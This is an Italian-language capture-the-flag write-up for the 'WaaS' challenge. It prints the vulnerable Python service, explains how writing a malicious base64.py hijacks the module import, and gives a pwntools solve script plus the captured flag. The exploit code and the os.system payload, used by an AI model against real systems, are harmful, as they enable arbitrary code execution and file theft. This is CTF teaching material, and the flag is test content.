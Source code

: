 +++
title = 'WaaS'
date = 2024-08-06T11:27:07+02:00
tags = [
  "Misc",
  "Python",
]
draft = true
+++

# Waas

**Descrizione**: Writing as a Service!

**Autori**: NoobMaster + NoobHacker

**Punti**: 491

**Soluzioni**: 78

## Introduction

WaaS (Writing as a Service) ci permette di sovrascrivere un file sul sistema (dopo un certo controllo dell'input) e di inserirvi tutto ciò che vogliamo (fino a quando non si incontra un newline).

```python
import subprocess
from base64 import b64decode as d
while True:
        print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
        try:
                inp = int(input("Choice: ").strip())
        except:
                print("Invalid input!")
                exit(0)
        if inp == 1:
                file = input("Enter file name: ").strip()
                assert file.count('.') <= 2 # Why do you need more?
                assert "/proc" not in file # Why do you need to write there?
                assert "/bin" not in file # Why do you need to write there? 
                assert "\n" not in file # Why do you need these?
                assert "chall" not in file # Don't be overwriting my files!
                try: 
                        f = open(file,'w')
                except:
                        print("Error! Maybe the file does not exist?")

                f.write(input("Data: ").strip())
                f.close()
                print("Data written sucessfully!")

        if inp == 2:
                flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
                print(flag.stdout.strip())
```

## Solution

In un primo momento si potrebbe pensare di provare a bypassare la validazione dell'input, magari riscrivendo il funzionamento del comando cat o del file di sfida stesso, ma questo non è possibile.
Una cosa molto bizzarra è l'importato ma inutilizzato `b64decode` dal modulo `base64`, che è ciò che ci permette di risolvere la sfida.

Quando python importa i moduli, guarda in `sys.path`, che ha un elenco di directory valide da cui importare i moduli. Dopo una rapida ricerca nei [python3 docs](https://docs.python.org/3/library/sys_path_init.html), scopriamo che la prima directory in cui cerca è la stessa directory in cui si trova il file, il che significa che se abbiamo un file `base64.py` nella directory, allora python cercherà di importare un simbolo `b64decode` da quel file, invece del comune modulo conosciuto.
Un'altra caratteristica del comportamento di importazione di python che possiamo usare è che tutto il codice di un modulo importato sarà eseguito. Per esempio, se un file `test.py` ha `print('Hello, World!')` e può essere eseguito (per esempio se è al livello di indentazione più basso), un file con `import test` vedrà effettivamente `Hello, World!` stampato su `stdout`.
Pertanto, poiché la funzione `open` con un flag `'w' creerà un file se non esiste, possiamo semplicemente creare un file chiamato`base64.py` e scriverci dentro il nostro codice malevolo.

Qualcosa del genere farà al caso vostro:

```python
import os; b64decode = 0; os.system("cat flag.txt")
```

Ma il flag non è ancora nostro; dobbiamo sfruttare il fatto che l'istanza non resetta i suoi file ogni volta che ci si connette, il che significa che il nostro `base64.py` rimarrà nella cartella per tutta la durata dell'istanza. Questo significa che dobbiamo semplicemente riconnetterci e ottenere il nostro flag.

`solve.py`

```python
from pwn import *

def solve():
  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance

  r.sendlineafter(b'Choice: ', b'1') # 1 to write a file
  r.sendlineafter(b'Enter file name: ', b'base64.py')
  r.sendlineafter(b'Data: ', b'import os; b64decode = 0; os.system("cat flag.txt")')

  r.close()

  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance
  flag = r.recvline().decode()
  print(f'flag: {flag}')
  r.close()

if __name__ == '__main__':
  solve()
```

```text
$ flag: n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_f5c63f47af0e}
```

<p align="right">Author: vympel</p>
